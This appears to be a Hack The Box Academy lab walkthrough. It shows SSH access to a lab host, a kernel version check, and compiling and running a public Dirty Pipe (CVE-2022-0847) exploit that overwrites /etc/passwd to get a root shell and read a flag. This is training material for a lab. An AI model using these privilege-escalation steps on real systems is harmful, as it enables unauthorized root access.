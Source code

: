 ```shell
ssh htb-student@STMIP
```

```
┌─[eu-academy-1]─[10.10.15.141]─[htb-ac-594497@htb-rkxqsrkwmn]─[~]
└──╼ [★]$ ssh htb-student@10.129.204.55

htb-student@10.129.204.55's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.15.0-051500-generic x86_64)

<SNIP>

htb-student@ubuntu:~$ 
```

Students need to check if the kernel version is vulnerable:

Code: shell

```shell
uname -r
```

```
htb-student@ubuntu:~$ uname -r

5.15.0-051500-generic
```

Confirming the vulnerability (as all kernel versions from 5.8 - 5.17 are vulnerable), students need to navigate into the transferred directory and use the first exploit version, \`exploit-1:

Code: shell

```shell
cd CVE-2022-0847-DirtyPipe-Exploits/
bash compile.sh
./exploit-1
```

```
htb-student@ubuntu:~$ cd CVE-2022-0847-DirtyPipe-Exploits/
htb-student@ubuntu:~/CVE-2022-0847-DirtyPipe-Exploits$ bash compile.sh
htb-student@ubuntu:~/CVE-2022-0847-DirtyPipe-Exploits$ ./exploit-1

Backing up /etc/passwd to /tmp/passwd.bak ...
Setting root password to "piped"...
Password: Restoring /etc/passwd from /tmp/passwd.bak...
Done! Popping shell... (run commands now)
```

Taking advantage of the root shell, students need to read the contents of the flag:

Code: shell

```shell
cat /root/flag.txt
```
